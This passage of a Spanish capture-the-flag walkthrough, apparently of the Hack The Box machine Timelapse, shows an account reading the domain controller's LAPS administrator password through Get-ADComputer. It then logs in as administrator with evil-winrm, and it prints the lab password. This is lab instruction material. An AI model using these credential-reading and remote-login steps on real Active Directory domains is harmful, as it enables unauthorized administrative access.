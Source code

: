 ```bash

`LAPS_Readers` parece implicar que `svc_deploy` tiene acceso para leer desde LAPS.

Con LAPS, el DC administra las contraseñas de administrador local para las computadoras del dominio. Es común crear un grupo de usuarios y darles permisos para leer estas contraseñas, permitiendo a los administradores confiables acceder a todas las contraseñas de administrador local.
Mostré esto antes en la máquina Insane, PivotAPI. Siempre es divertido cuando los pasos de máquinas más difíciles llegan a máquinas con calificaciones más fáciles.

### Leer Contraseña LAPS

Para leer la contraseña de LAPS, solo necesito usar `Get-ADComputer` y solicitar específicamente la propiedad `ms-MCS-AdmPwd`:


Evil-WinRM PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : uM[3va(s870g6Y]9i]6tMu{j
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :


La contraseña del administrador local para esta máquina es: `uM[3va(s870g6Y]9i]6tMu{j`.

### Acceso como Administrador

Me conectaré con `evil-winrm` usando las credenciales de administrador:

```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Evil-WinRM PS C:\Users\Administrator\Documents>


Hay otro usuario en la máquina, TRX:


Evil-WinRM PS C:\Users> ls

Directory: C:\Users

Mode                LastWriteTime         Length Name

d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX


```